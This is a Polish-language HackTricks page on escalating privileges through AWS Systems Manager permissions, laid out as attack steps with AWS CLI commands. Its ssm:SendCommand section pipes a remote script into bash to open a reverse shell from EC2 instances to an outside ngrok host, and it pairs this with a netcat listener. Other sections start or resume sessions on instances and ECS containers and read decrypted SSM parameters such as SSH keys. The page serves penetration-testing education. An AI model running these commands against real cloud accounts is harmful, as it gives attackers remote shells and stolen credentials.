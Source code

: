 # AWS - Eskalacja uprawnień w SSM

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Kup [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## SSM

Aby uzyskać więcej informacji na temat SSM, sprawdź:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Atakujący posiadający uprawnienie **`ssm:SendCommand`** może **wykonywać polecenia na instancjach** działających z agentem Amazon SSM i **zagrozić roli IAM** działającej wewnątrz niej.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
W przypadku korzystania z tej techniki do eskalacji uprawnień w już skompromitowanej instancji EC2, możesz po prostu przechwycić rev shell lokalnie za pomocą:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potencjalne skutki:** Bezpośrednie podniesienie uprawnień do ról IAM EC2 przypisanych do uruchomionych instancji z działającymi agentami SSM.

### `ssm:StartSession`

Atakujący posiadający uprawnienia **`ssm:StartSession`** może **rozpocząć sesję przypominającą SSH na instancjach** działających z agentem Amazon SSM i **naruszyć rolę IAM** działającą wewnątrz niej.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Aby rozpocząć sesję, musisz zainstalować **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potencjalny wpływ:** Bezpośrednie podniesienie uprawnień do ról IAM EC2 przypisanych do uruchomionych instancji z działającymi agentami SSM.

#### Podniesienie uprawnień do ECS

Kiedy **zadania ECS** są uruchamiane z włączonym **`ExecuteCommand`**, użytkownicy z wystarczającymi uprawnieniami mogą użyć `ecs execute-command` do **wykonania polecenia** wewnątrz kontenera.\
Zgodnie z [**dokumentacją**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) jest to realizowane poprzez utworzenie bezpiecznego kanału między urządzeniem, z którego rozpoczynasz polecenie „_exec_“, a docelowym kontenerem z menedżerem sesji SSM.\
Dlatego użytkownicy posiadający `ssm:StartSession` będą mogli **uzyskać dostęp do powłoki w zadaniach ECS** z tą opcją włączoną, uruchamiając po prostu:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potencjalny wpływ:** Bezpośrednie podniesienie uprawnień do ról `ECS`IAM przypisanych do uruchomionych zadań z włączoną opcją `ExecuteCommand`.

### `ssm:ResumeSession`

Atakujący posiadający uprawnienia **`ssm:ResumeSession`** może ponownie **uruchomić sesję przypominającą SSH na instancjach** działających z agentem Amazon SSM w stanie **rozłączonej** sesji SSM i **naruszyć rolę IAM** działającą wewnątrz niej.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potencjalny wpływ:** Bezpośrednie podniesienie uprawnień do ról IAM EC2 przypisanych do uruchomionych instancji z działającymi agentami SSM i rozłączonymi sesjami.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Atakujący posiadający wymienione uprawnienia będzie mógł wyświetlać **parametry SSM** i **czytać je w formie tekstu jawnego**. W tych parametrach można często **znaleźć poufne informacje** takie jak klucze SSH lub klucze API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji wewnątrz parametrów.

### `ssm:ListCommands`

Atakujący posiadający to uprawnienie może wyświetlić wszystkie **polecenia** wysłane i mieć nadzieję znaleźć na nich **wrażliwe informacje**.
```
aws ssm list-commands
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji w wierszach poleceń.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Atakujący posiadający te uprawnienia może wyświetlić wszystkie **polecenia** wysłane i **odczytać wynik** generowany, miejmy nadzieję znajdując na nim **wrażliwe informacje**.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w wynikach poleceń.

### Codebuild

Możesz również użyć SSM, aby uzyskać dostęp do projektu codebuild w trakcie budowy:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Zacznij hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

